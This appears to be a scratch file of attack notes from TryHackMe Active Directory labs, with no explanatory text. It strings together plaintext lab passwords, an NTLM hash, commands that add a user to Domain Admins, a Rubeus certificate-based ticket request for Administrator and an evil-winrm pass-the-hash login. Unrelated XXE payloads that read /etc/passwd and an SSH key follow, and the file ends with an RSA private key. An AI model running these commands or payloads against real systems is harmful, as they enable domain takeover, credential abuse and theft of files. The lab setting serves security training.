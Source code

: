 Username: svcServMan
Password: Sup3rStr0ngPass!@

xfreerdp /v:thmwrk1.za.tryhackme.loc /u:sarah.hilton  /p:Newcastle1988

Add-ADGroupMember "IT Support" -Members "sarah.hilton"

runas /netonly /user:za.tryhackme.loc\svcServMan cmd.exe

xfreerdp /v:thmserver2.za.tryhackme.loc /u:sarah.hilton  /p:Newcastle1988

ssh za.tryhackme.loc\\sarah.hilton@thmserver2.za.tryhackme.loc

Get-ADGroupMember -Identity "Domain Admins" 

Add-ADGroupMember "Domain Admins" -Members "sarah.hilton"

.\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:cert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.35.101

Administrator:500:aad3b435b51404eeaad3b435b51404ee:f3118544a831e728781d780cfdb9c1fa:::

evil-winrm -i 10.10.46.109 -u Administrator -H f3118544a831e728781d780cfdb9c1fa

thmuser1
Password321

xfreerdp /u:thmuser1  /p:Password321 /v:10.10.46.109
admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b% 
<?xml version="1.0"?>

<!DOCTYPE ANY [
         <!ENTITYcontent SYSTEM"file:///etc/passwd">]>
   <name>&content;</name>

   <?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///home/barry/.ssh/id_rsa.pub" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>

-----BEGIN RSA PRIVATE KEY-----
D137279D69A43E71BB7FCB87FC61D25E jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65 l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk 4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8 7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+ T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7 LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF 6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs 7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of 1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ +Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn 7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD 
-----END RSA PRIVATE KEY-----
